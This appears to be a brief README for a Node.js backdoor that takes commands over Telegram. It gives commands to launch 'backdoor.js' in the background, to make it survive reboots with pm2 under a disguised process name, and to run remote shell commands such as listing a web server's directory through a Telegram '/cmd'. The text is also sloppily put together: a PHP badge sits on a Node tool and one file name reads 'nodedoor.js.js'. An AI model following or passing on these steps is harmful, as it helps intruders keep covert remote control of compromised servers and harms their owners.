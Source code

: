 # js node


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `node` value
```
node backdoor.js
nohup node backdoor.js &

another command 
npm install -g pm2
pm2 start nodedoor.js.js --name sakarepmu
pm2 save
pm2 startup


telegram command Exe
/cmd ls -lah /var/www/html or ./etc

```
